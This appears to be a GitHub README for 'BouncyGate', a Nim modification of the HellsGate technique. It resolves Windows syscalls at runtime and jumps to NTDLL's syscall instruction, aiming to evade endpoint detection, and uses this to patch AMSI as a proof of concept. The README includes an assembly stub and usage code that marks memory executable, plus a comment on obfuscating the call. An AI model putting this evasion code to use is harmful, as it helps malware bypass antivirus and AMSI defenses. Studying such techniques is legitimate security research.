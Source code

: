 # BouncyGate

This is a modified version of [@zimawhit3's implementation](https://github.com/zimawhit3/HellsGateNim) of HellsGate in Nim, with additionally making sure that all syscalls go through NTDLL, by replacing the syscall instructions with a JMP to the `syscall` instruction in NTDLL that corresponds to the syscall being executed. The syscalls are then used to patch AMSI as a PoC.

See https://eversinc33.github.io/posts/avoiding-direct-syscall-instructions/ for an explanation.

If you would like to learn more about how HellsGate works, you can find smelly__vx's (@RtlMateusz) and am0nsec's (@am0nsec) paper at the [Vx-Underground Github](https://github.com/vxunderground/VXUG-Papers/tree/main/Hells%20Gate).

Install mingw 8.0.0-1, since the newest version has some issues related to relocation that make compilation impossible.

### Usage

First, the syscall stub has to be defined:

```nim
proc NtProtectVirtualMemory(ProcessHandle: Handle, BaseAddress: PVOID, NumberOfBytesToProtect: PULONG, NewAccessProtection: ULONG, OldAccessProtection: PULONG): NTSTATUS {.asmNoStackFrame.} =
    asm """
        mov r10, rcx
        mov eax, `ntProtectSyscall`
        mov r11, `ntProtectSyscallJumpAddress`
        jmp r11
        ret
    """
```

Then the syscall number can be resolved at runtime and the syscall can be used afterwards:

```nim
var ntProtect = resolve_syscall("NtProtectVirtualMemory")
ntProtectSyscall = ntProtect.wSysCall
ntProtectSyscallJumpAddress = ntProtect.syscallJumpAddress # of course you can play around with the syscall jump addresses here and have it execute with the syscall fron a different function, to obfuscate your call
var status = NtProtectVirtualMemory(GetCurrentProcess(), &cs_addr, &p_len, cast[ULONG](PAGE_EXECUTE_READWRITE), &op)
```
